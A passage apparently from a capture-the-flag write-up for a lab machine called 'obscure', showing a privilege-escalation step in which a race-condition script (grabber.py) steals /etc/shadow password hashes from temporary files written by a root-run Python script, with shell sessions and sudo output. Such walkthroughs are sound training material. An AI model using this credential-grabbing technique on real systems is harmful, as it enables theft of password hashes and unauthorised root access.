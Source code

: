 ```python
        o,e = proc.communicate()
        print('Output: ' + o.decode('ascii'))
        print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')
```

This program read the `/etc/shadow` file where the hashes for each users are stored. Moreover, it writes them in a file in `/tmp/SSH` in a randomly named file. It then does stuff and deletes the file. but it is slow (especially due to the `time.sleep(1)`)  So we just need to make a script which is faster that will look for new files in this folder and read the input. Lets create out script in the `/tmp` folder

```python
robert@obscure:/tmp$ cat grabber.py
import os
import time

while True:
    try:
        listdir = os.listdir('/tmp/SSH/')
        if listdir != []:
            os.system('cat /tmp/SSH/'+listdir[0])
            break
        else:
            pass

    except Exception as e:
        pass
    time.sleep(0.001)
```

Now we can create the SSH folder and run our script

```sh
robert@obscure:/tmp$ mkdir SSH
robert@obscure:/tmp$ python3 grabber.py
```

We open a second ssh with robert and we run the BetterSSH.py script

```sh
robert@obscure:~/BetterSSH$ python3 BetterSSH.py
Enter username: root
Enter password: test
Traceback (most recent call last):
  File "BetterSSH.py", line 15, in <module>
    with open('/etc/shadow', 'r') as f:
PermissionError: [Errno 13] Permission denied: '/etc/shadow'
```

Oh, of course, we must run this python as root. but can we?

```sh
robert@obscure:~/BetterSSH$ sudo -l
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3
        /home/robert/BetterSSH/BetterSSH.py
```
